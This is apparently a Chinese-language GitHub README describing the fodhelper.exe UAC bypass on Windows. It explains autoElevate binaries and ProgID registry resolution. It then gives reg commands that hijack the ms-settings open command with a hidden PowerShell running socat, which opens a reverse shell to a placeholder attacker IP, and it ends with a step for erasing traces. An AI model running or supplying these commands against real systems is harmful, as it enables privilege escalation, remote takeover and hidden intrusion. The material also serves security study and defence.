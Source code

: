 # bypassUAC_study
通过C语言实现一键化bypassUAC限制
Fodhelper.exe 是 Windows 默认可执行文件之一，负责管理 Windows 可选功能，包括附加语言、默认未安装的应用程序或其他操作系统特性。与大多数用于系统配置的程序一样，fodhelper 可以在使用默认 UAC 设置时自动提升权限，这样管理员在执行标准管理任务时就不会被提示提升权限。虽然我们已经看过 autoElevate 可执行文件，但与 msconfig 不同，fodhelper 可能会在无法访问GUI 的情况下被滥用。

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/d8d6a1ca-de47-4449-8c51-cab84a415149/dfd7f5fb-76b9-48ef-a9b8-cd3fb1629005/image.png)

从攻击者的角度来看，这意味着它可以通过中等完整性远程 shell 来使用，并利用到功能齐全的高完整性进程中。这种特殊技术是由[@winscripting发现的，并已被](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/)[Glupteba 恶意软件](https://www.cybereason.com/blog/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)广泛使用。

关于 fodhelper 值得注意的是，它会在注册表中搜索感兴趣的特定键：

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/d8d6a1ca-de47-4449-8c51-cab84a415149/7be1de7d-ced6-4607-82eb-f817af89afc8/image.png)

当 Windows 打开文件时，它会检查注册表以了解要使用哪个应用程序。注册表为每种文件类型保存一个称为 Programmatic ID ( **ProgID** ) 的键，其中与相应的应用程序相关联。假设您尝试打开一个 HTML 文件。将检查注册表中称为 HKEY_CLASSES_ROOT 的部分**，**以便系统知道它必须使用您首选的 Web 客户端来打开它。要使用的命令将在**`shell/open/command`**每个文件的 ProgID 子项。以“htmlfile”ProgID 为例：

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/d8d6a1ca-de47-4449-8c51-cab84a415149/3ef9e416-df58-40e8-a1c4-ed4de61384c6/image.png)

实际上，HKEY_CLASSES_ROOT 只是注册表上两个不同路径的合并视图：

| **小路** | **描述** |
| --- | --- |
| HKEY_LOCAL_MACHINE\Software\Classes | 系统范围的文件关联 |
| HKEY_CURRENT_USER\Software\Classes | 活跃用户的文件关联 |

**检查 HKEY_CLASSES_ROOT 时，如果HKEY_CURRENT_USER (HKCU)**处有用户特定关联，则该关联将优先。如果未配置用户特定关联，则将改用 **HKEY_LOCAL_MACHINE (HKLM)**处的系统范围关联。这样，每个用户都可以根据需要单独选择他们喜欢的应用程序。

回到 fodhelper，我们现在看到它正在尝试打开 ms-settings ProgID 下的文件。通过在 HKCU 下当前用户上下文中为该 ProgID 创建关联，我们将覆盖默认的系统范围关联，从而控制使用哪个命令来打开文件。由于 fodhelper 是 autoElevate 可执行文件，因此它生成的任何子进程都将继承高完整性令牌，从而有效地绕过UAC。

C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.


清除痕迹：
reg delete HKCU\Software\Classes\ms-settings\ /f
